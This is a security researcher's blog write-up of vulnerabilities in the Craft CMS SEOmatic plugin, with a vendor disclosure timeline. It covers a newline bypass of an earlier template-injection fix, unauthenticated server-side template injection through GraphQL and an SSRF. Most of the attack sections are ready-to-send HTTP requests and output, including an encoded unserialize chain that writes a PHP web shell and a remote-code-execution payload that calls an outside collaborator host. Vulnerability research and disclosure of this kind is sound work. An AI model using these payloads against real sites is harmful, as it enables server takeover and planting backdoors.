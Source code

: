 # Multiple vulnerabilities at Craft CMS SEOmatic plugin


A couple of months ago I was performing retest of an interesting Server Side Request Forgery (SSRF) vulnerability at `debug` GET parameter. Developers disabled it on load balancer and I decided to perform some fuzzing with awesome Burp Suite plugin [param-miner](https://github.com/PortSwigger/param-miner). There was no way to exploit SSRF but interesting parameter `action` was discovered. Future investigation show that it is default behavior of [Craft CMS](https://craftcms.com/). Fast search by public CVE retured promising vulnerability CVE-2018-14716. You can find information about issue and way to exploit it at blog post [0xB455](http://ha.cker.info/exploitation-of-server-side-template-injection-with-craft-cms-plguin-seomatic/). When you will finish reading article return and we find way to bypass fix and execute code at vulnerable system.

<!--more-->

### Initial setup of vulnerable CMS
Before we start let's prepare our own library. Craft CMS Seomatic plugin version before 3.3.15 required to reproduce issues. Intallation guide can be found at official [documentation](https://craftcms.com/docs/3.x/installation.html) plugin can be found at [plugin store](https://plugins.craftcms.com/seomatic). Vulnerable application had Pro license and to test localy I made small fix at file
⁨craft⁩/vendor⁩/⁨craftcms⁩/⁨cms⁩/⁨src⁩/⁨controllers/GraphqlController.php:57

```php
 // Craft::$app->requireEdition(Craft::Pro);
```

### Security protection bypass
Now everything is ready to get started. Fix of CVE-2018-14716 is implemented at function sanitizeUrl(). It takes user supplied parameter url decode it and replace all strings with following rule `/{.*}/` to delete all Twig template special symbols. Vulnerable code:

```php

	public static function sanitizeUrl(string $url, bool $checkStatus = true): string
    {
        // Remove the query string
        $url = UrlHelper::stripQueryString($url);
        // HTML decode the entities, then strip out any tags
        $url = html_entity_decode($url, ENT_NOQUOTES, 'UTF-8');
        $url = urldecode($url);
        $url = strip_tags($url);

        // If this is a >= 400 status code, set the canonical URL to nothing
        if ($checkStatus && Craft::$app->getResponse()->statusCode >= 400) {
            $url = '';
        }
        // Remove any Twig tags that somehow are present in the incoming URL
        /** @noinspection CallableParameterUseCaseInTypeContextInspection */
        $result = preg_replace('/{.*}/', '', $url);
        // var_dump($result);
        if (!empty($result) && $result) {
            $url = $result;
        } else {
            $url = '';
        }

        return $url;
    }
```
Hopefully for attacker Regular Expressions (Perl-Compatible) have some funny behavior that will allows to bypass such protection. Let's take a look at [docs](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) 
```
s (PCRE_DOTALL) 
If this modifier is set, a dot metacharacter in the pattern matches all characters, including newlines. Without it, newlines are excluded.
```
Finally to bypass protection malicious user should split it template injection payload with new line symbols. Proof of Concept can be presented as `{{\n13*13\n}}`. 
Seomatic plugin API was disabled at target assets - it is another major obstacle to seccusefully inject Twig template. By default it should be available at endpoint `/actions/seomatic/meta-container/all-meta-containers?uri=` and if you are lucky you can skip next section. 
![Seomatic plugin API](/images/seomatic-config.png)

### Graphql
There is another way to exploit vulnerability - Graphql Controller. By default graphql query available at `/actions/graphql/api`. Seomatic plugin register its seomatic query by default. We can get access to Secret information with unauthorization request to graphql api with `uri` value `{{\n1337*13\n}}`.

```html
POST /index.php?p=admin/actions/graphql/api HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8000/admin/seomatic/plugin
X-Requested-With: XMLHttpRequest
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 81

query=query{seomatic(uri:"{{\n1337*13\n}}"){metaTitleContainer,metaTagContainer}}

```
![Seomatic SSTI](/images/seomatic-ssti-1337.png)

### Remote code execution by unserialize
The old Remote Code Execution exploit available at internet looks like `{{craft.app.view.evaluateDynamicContent('print(system("ls"))')}}` but unfortunately for us it was disabled at version 3.5.0. At first I was trying to get RCE chain by unserialize function at `craft.app.getQueue().unserializeMessage()`. The only working chain at Craft CMS environment is *Guzzle/FW1* but it has some limitations that should be addressed first. Serialized object contains `{}` chars. We should modify string to exclude them from payload. As you may know PHP support `\\x00` encoding. I modified **phpggc** tool to print out exploit in new encoding. So it looks like:

```bash
./phpggc Guzzle/FW1 /tmp/exploit.txt data -s    
O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:41:"%00GuzzleHttp\Cookie\FileCookieJar%00filename"%3Bs:16:"/tmp/exploit.txt"%3Bs:52:"%00GuzzleHttp\Cookie\FileCookieJar%00storeSessionCookies"%3Bb:1%3Bs:36:"%00GuzzleHttp\Cookie\CookieJar%00cookies"%3Ba:1:{i:0%3BO:27:"GuzzleHttp\Cookie\SetCookie":1:{s:33:"%00GuzzleHttp\Cookie\SetCookie%00data"%3Ba:3:{s:7:"Expires"%3Bi:1%3Bs:7:"Discard"%3Bb:0%3Bs:5:"Value"%3Bs:80:"<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd'])%3B system($cmd)%3B }?>%0A"%3B}}}s:39:"%00GuzzleHttp\Cookie\CookieJar%00strictMode"%3BN%3B}

\\x4f\\x3a\\x33\\x31\\x3a\\x22\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x22\\x3a\\x34\\x3a\\x7b\\x73\\x3a\\x34\\x31\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x66\\x69\\x6c\\x65\\x6e\\x61\\x6d\\x65\\x22\\x3b\\x73\\x3a\\x31\\x36\\x3a\\x22\\x2f\\x74\\x6d\\x70\\x2f\\x65\\x78\\x70\\x6c\\x6f\\x69\\x74\\x2e\\x74\\x78\\x74\\x22\\x3b\\x73\\x3a\\x35\\x32\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x73\\x74\\x6f\\x72\\x65\\x53\\x65\\x73\\x73\\x69\\x6f\\x6e\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x73\\x22\\x3b\\x62\\x3a\\x31\\x3b\\x73\\x3a\\x33\\x36\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x63\\x6f\\x6f\\x6b\\x69\\x65\\x73\\x22\\x3b\\x61\\x3a\\x31\\x3a\\x7b\\x69\\x3a\\x30\\x3b\\x4f\\x3a\\x32\\x37\\x3a\\x22\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x53\\x65\\x74\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x22\\x3a\\x31\\x3a\\x7b\\x73\\x3a\\x33\\x33\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x53\\x65\\x74\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x00\\x64\\x61\\x74\\x61\\x22\\x3b\\x61\\x3a\\x33\\x3a\\x7b\\x73\\x3a\\x37\\x3a\\x22\\x45\\x78\\x70\\x69\\x72\\x65\\x73\\x22\\x3b\\x69\\x3a\\x31\\x3b\\x73\\x3a\\x37\\x3a\\x22\\x44\\x69\\x73\\x63\\x61\\x72\\x64\\x22\\x3b\\x62\\x3a\\x30\\x3b\\x73\\x3a\\x35\\x3a\\x22\\x56\\x61\\x6c\\x75\\x65\\x22\\x3b\\x73\\x3a\\x38\\x30\\x3a\\x22\\x3c\\x3f\\x70\\x68\\x70\\x20\\x69\\x66\\x28\\x69\\x73\\x73\\x65\\x74\\x28\\x24\\x5f\\x52\\x45\\x51\\x55\\x45\\x53\\x54\\x5b\\x27\\x63\\x6d\\x64\\x27\\x5d\\x29\\x29\\x7b\\x20\\x24\\x63\\x6d\\x64\\x20\\x3d\\x20\\x28\\x24\\x5f\\x52\\x45\\x51\\x55\\x45\\x53\\x54\\x5b\\x27\\x63\\x6d\\x64\\x27\\x5d\\x29\\x3b\\x20\\x73\\x79\\x73\\x74\\x65\\x6d\\x28\\x24\\x63\\x6d\\x64\\x29\\x3b\\x20\\x7d\\x3f\\x3e\\x0a\\x22\\x3b\\x7d\\x7d\\x7d\\x73\\x3a\\x33\\x39\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x73\\x74\\x72\\x69\\x63\\x74\\x4d\\x6f\\x64\\x65\\x22\\x3b\\x4e\\x3b\\x7d
```
![Seomatic SSTI](/images/seomatic-ssti-unserialize.png)

Seccusesfully exploitation of vulnerability will creates `exploit.txt ` at `/tmp/` folder.

```bash
doge in ~/phpggc on master ● ● λ cat /tmp/exploit.txt 
[{"Expires":1,"Discard":false,"Value":"<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); }?>\n"}]%                                    
doge in ~/IdeaProjects/GIT/phpggc on master ● ● λ cat data  
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); }?>
doge in ~/phpggc on master ● ● λ 

```

# Remote code execution 
A few days later I found better way to exploit this vulnerability. As I mentioned earlier method `evaluateDynamicContent` was disabled at Craft CMS but it was not at **Yii::Base::View**. As you may already know Twig template engine support variables. We can use them to create new **Yii::Base::View** object and call `evaluateDynamicContent` method directly and bypass protection mechanism. Final exploit will looks like.

```html
POST /index.php?p=admin/actions/graphql/api HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8000/admin/seomatic/plugin
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: CRAFT_CSRF_TOKEN=65b1642b30dd16579ca51699a3392fc9a24f9802f181a5b0d1998c2f8464c15da%3A2%3A%7Bi%3A0%3Bs%3A16%3A%22CRAFT_CSRF_TOKEN%22%3Bi%3A1%3Bs%3A208%3A%22nzSA34Nh2-246okgxBRjTXG_qKeqgdezSL2hsKFH%7C0e8798e23345a2260452e8f25ae6cd879da745e39be67e71f9c1734da5eb2048nzSA34Nh2-246okgxBRjTXG_qKeqgdezSL2hsKFH%7C1%7C%242y%2413%24wK%2FYH5krqJrSeROBaQ9jbOjKdpMg2hHqVkwJij8Gb7z6vLkLwzohS%22%3B%7D; 
Content-Type: application/x-www-form-urlencoded
Content-Length: 262

query=query{seomatic(uri:"{%\nset+dum={\n'class':'yii\\\\base\\\\View'\n}\n%}{%\nset+dummy=create(dum)\n%}{{\ndummy.evaluateDynamicContent('echo+system(\\'host+3bfekk3h7xxfbjupcfq82qmu0l6cu1.burpcollaborator.net\\');')\n}}"){metaTitleContainer,metaTagContainer}}
```

```html
HTTP/1.1 200 OK
Server: nginx/1.17.3
Date: Fri, 30 Oct 2020 14:40:37 GMT
Content-Type: application/json; charset=UTF-8
Connection: close
X-Robots-Tag: none
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-Powered-By: Craft CMS
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Authorization, Content-Type, X-Craft-Token
Access-Control-Allow-Origin: *
Last-Modified: Friday, 30-Oct-2020 14:40:37 UTC
Cache-Control: no-store, no-cache, must-revalidate, proxy-revalidate, max-age=0
Content-Length: 779

{"data":{"seomatic":{"metaTitleContainer":"<title>🚧 craft</title>","metaTagContainer":"<meta name=\"generator\" content=\"SEOmatic\"><meta name=\"referrer\" content=\"no-referrer-when-downgrade\"><meta name=\"robots\" content=\"none\"><meta content=\"ru_RU\" property=\"og:locale\"><meta content=\"craft\" property=\"og:site_name\"><meta content=\"website\" property=\"og:type\"><meta content=\"127.0.0.1:8000/3bfekk3h7xxfbjupcfq82qmu0l6cu1.burpcollaborator.net has address 52.16.21.24\n3bfekk3h7xxfbjupcfq82qmu0l6cu1.burpcollaborator.net mail is handled by 1 mail.3bfekk3h7xxfbjupcfq82qmu0l6cu1.burpcollaborator.net.\n3bfekk3h7xxfbjupcfq82qmu0l6cu1.burpcollaborator.net mail is handled by 1 mail.3bfekk3h7xxfbjupcfq82qmu0l6cu1.burpcollaborator.net.\" property=\"og:url\">"}}}
```

![Seomatic RCE](/images/seomatic-rce.png)

### Awesome calc
Proof-of-Concept
![Seomatic RCE PoC](/images/seomatic-rce-poc.mov)

# Bonus. Server Side Request Forgery

Unauthorized Server Side Request Forgery at Craft CMS Seomatic plugin version before 3.3.15

### Details about vulnerability 
Controller FileController allows anonymous access by default. Function looks like:
```php
        $url = base64_decode($url);
        $robots = base64_decode($robots);
        $canonical = base64_decode($canonical);
        $url = UrlHelper::absoluteUrlWithProtocol($url);
        $contents = file_get_contents($url);
        $response = Craft::$app->getResponse();
```
Url parameter is base64 encoded malicious user host `http://3eif8shsnxsuvuyupt9o4bfwnntdh2.burpcollaborator.net/` is `aHR0cDovLzNlaWY4c2hzbnhzdXZ1eXVwdDlvNGJmd25udGRoMi5idXJwY29sbGFib3JhdG9yLm5ldC8=`

### Step to reproduce

```html
GET /index.php?action=seomatic/file/seo-file-link&url=aHR0cDovLzNlaWY4c2hzbnhzdXZ1eXVwdDlvNGJmd25udGRoMi5idXJwY29sbGFib3JhdG9yLm5ldC8= HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8000/admin/seomatic/plugin
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
![Seomatic SSRF](/images/seomatic-ssrf.png)
![Seomatic SSRF](/images/seomatic-ssrf-callback.png)

# Timeline

1. 13 Aug 2020 Vulnerabilities were discovered
2. 14 Aug 2020 Nystudio107 was informed about the vulnerabilities
3. 17 Aug 2020 fix released
4. CVE-ID to be done
5. XX Xxx Public disclosure
